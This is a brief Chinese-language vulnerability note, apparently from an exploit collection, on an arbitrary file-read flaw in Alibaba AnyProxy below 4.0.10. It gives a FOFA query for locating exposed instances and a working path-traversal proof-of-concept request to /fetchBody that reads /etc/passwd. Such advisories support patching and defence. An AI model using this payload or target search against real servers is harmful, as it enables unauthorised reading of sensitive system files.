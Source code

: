 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

```
Alibaba AnyProxy < 4.0.10
```

## FOFA

```
"anyproxy"
```

## 漏洞复现

页面如下

![](./images/202202102008909.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```



![](./images/202202102008683.png)

